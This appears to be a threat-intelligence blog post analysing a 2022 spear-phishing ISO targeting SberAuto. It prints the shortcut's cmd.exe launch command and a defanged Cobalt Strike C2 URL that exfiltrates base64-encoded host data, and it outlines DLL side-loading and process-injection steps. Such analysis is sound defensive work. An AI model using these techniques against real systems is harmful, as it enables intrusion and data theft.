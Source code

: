 +++
date = "2023-01-01"
title = "The curious case of SberAuto spear-phishing campaign"
slug = "the-curious-case-of-sberauto-spear-phishing-campaign"
+++



### Summary
On December 19, 2022 malware researcher **StopMalvertisin** twitted a possible about a possible APT29 attack.

![Alt text](image-0.png)

The spear-phishing campaign targeted **SberAuto**, an online car trading platform in Russia associated with the state-owned banking and financial services company Sberbank.  
The analyzed attack displayed similar TTPs commonly attributed to **APT29** (aka **Cozy Bear**), even though it is unclear why a Russian-backed hacking group should be targeting a domestic web service.


## Technical Analysis
### Initial Stage
The first stage of this attack is represented by an **ISO** file (0b32bd907072d95223e5eb2dc5e3d9e0) named Алкоголь_2023_zip.iso (i.e., "Alcohol"), uploaded on VirusTotal on December 19, 2022 from **Russia** and potentially delivered as an email attachment.

![Alt text](image-1.png) 

The archive content closely resembles the one of previous APT29 campaigns.   

![Alt text](image-2.png)


The only folder visible item is a shortcut file disguised as Алкоголь_2023.pdf. 

```%windir%/system32/cmd.exe /c start update.exe & "%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe" %cd%/alcohol.pdf```

Once clicked on the **LNK** file, **update.exe** is firstly executed, followed by the lure PDF document called "alcohol.pdf", whose displays shows the alcohol catalog from the Russian chain called **Globus Gourmet**.   

![Alt text](image-3.png)

The files "thumbcache.dll" and "update.exe" are actually two legit *signed binaries* of **Microsoft OneDrive**: the latter exploits s**earch order hijacking** to load the malicious DLL named "version.dll," which has been modified by the threat actor to load an encrypted payload file.

![Alt text](image-4.png)


### Second stage: version.dll
The dynamic-linked library "version.dll"  is a 64-bit DLL side-loaded with the legit OneDrive updater binary.
The *compile-timestamp* shows **Sunday, December 18 2022**. 

![Alt text](image-5.png)


The presence of some strings hints that this program was created using **Shhhloader** framework, a "shellcode loader that takes raw shellcode as input and compiles a C++ stub that does a bunch of different things to try and bypass AV/EDR".  

![Alt text](image-6.png)

The binary first employs ```GetComputerNameExA``` API function to get the hostname of the infected machine and check whether it is equal to ```corp.sberauto[.]com```, an online russian service facilitating car sales website.
If the hostname does not match, the program terminates.

![Alt text](image-7.png)

After that, the malicious DLL iterates through the running processes using ```Process32Next``` to find the ID of **explorer.exe** and obtain its process handle.

![Alt text](image-8.png)

It then creates a *suspended-process* called **RuntimeBroker.exe** using ```CreateProcessA``` and sets **explorer.exe** as the parent process via ```UpdateProcThreadAttribute``` API.   

![Alt text](image-9.png)

Finally, it decrypts the shellcode into RuntimeBroker.exe through ```NtAllocateVirtualMemory``` and ```NtWriteVirtualMemory```, executing it through ```NtAlertResumeThread```.  

![Alt text](image-10.png)


### Final stage: Cobalt Strike
The final payload is a **Cobalt Strike Beacon** that, after obtaining the relevant information of the machine such as *username*, *computer name* and *computer version*, sends them to the **C2** ```adblockext[.]ru``` domain via  **Base64-encoded** scheme. 


```https://adblockext[.]ru/functionalStatus/hw7s8TE4f9GtrBHb8iiFT7RyIAuN?_=BASE64_ENCODED_DATA```


## Conclusion
The similarities with previous APT29 campaigns (i.e., the use of ISO files containing binaries vulnerable to DLL hijacking) may lead to a couple of final hypotheses.  
First, the attacks may be either orchestrated by Ukrainian groups (particularly, the "The IT Army of Ukraine") trying to simulate Cozy Bear TTPs.  
Alternately, this could be also a Russian red teaming exercise to enhance internal cybersecurity measures.






























